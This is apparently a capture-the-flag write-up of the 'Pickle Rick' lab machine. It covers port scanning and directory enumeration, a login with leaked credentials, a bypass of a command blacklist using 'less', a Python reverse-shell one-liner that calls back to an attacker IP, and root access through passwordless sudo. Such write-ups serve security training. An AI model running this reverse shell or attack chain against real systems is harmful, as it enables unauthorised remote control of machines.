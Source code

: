 # Pickle Rick



## Port Scanning

```bash
nmap -T4 -sV -p- --min-rate 1000 --open 10.10.55.99 -oN port_scan.txt          

Nmap scan report for 10.10.55.99
Host is up (0.035s latency).
Not shown: 65524 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

First and foremost, intercept the web requests with Burp Suite to analyze if there is anything unusual.

<figure><img src="../../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

We can see a comment with a user.

```
Username: R1ckRul3s
```



### Dir/File Enum

Check if there is some juicy file using gobuster tool.

{% code title="Directories" overflow="wrap" %}
```bash
gobuster dir -u http://10.10.55.99/ -w /usr/share/wordlists/SecLists_custom/raft-large-directories.txt -b 403,404

/assets               (Status: 301) [Size: 311] [--> http://10.10.55.99/assets/]
```
{% endcode %}

{% code title="Files" overflow="wrap" %}
```bash
gobuster dir -u http://10.10.55.99/ -w /usr/share/wordlists/SecLists_custom/raft-large-files.txt -b 403,404

/login.php            (Status: 200) [Size: 882]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/.                    (Status: 200) [Size: 1062]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/denied.php           (Status: 302) [Size: 0] [--> /login.php]

```
{% endcode %}

We have discovered the robots.txt that contain this string:

```
Wubbalubbadubdub
```

And a `login.php` page.

Try to login with user and possible password in robots.txt found.

<figure><img src="../../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>

We are in!



## Initial Access

Now, we have a Command Panel that allow us to execute some command to Web Server machine.

<figure><img src="../../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

`ls` command works but when we will trying to print a file with `cat` command the portal gives me a error contains "Command disable".

This error suggests us that there is a Black List of commands. We have to search an alternative to print a file, the command `less` can help us.

<figure><img src="../../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

This command bypasses the Black List to read a file.

{% code title="flag1" %}
```
mr. meeseek hair
```
{% endcode %}



### Spawn Rev Shell

Making this request we can obtain a reverse shell

{% code title="Payload" overflow="wrap" %}
```python
export RHOST="10.23.52.142";export RPORT=9009;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



We can found a second flag in the rick's home directory

```bash
cd /home/rick
cat 'second ingredients'

1 jerry tear
```



## Privilege Escalation

Run `linpeass.sh` to find misconfiguration.

```bash
sudo -l

User www-data may run the following commands on ip-10-10-255-84:
    (ALL) NOPASSWD: ALL
```

With this rights we can access as root in easy way

```bash
sudo su
```

And print the last flag

```bash
cat /root/3rd.txt

3rd ingredients: fleeb juice
```



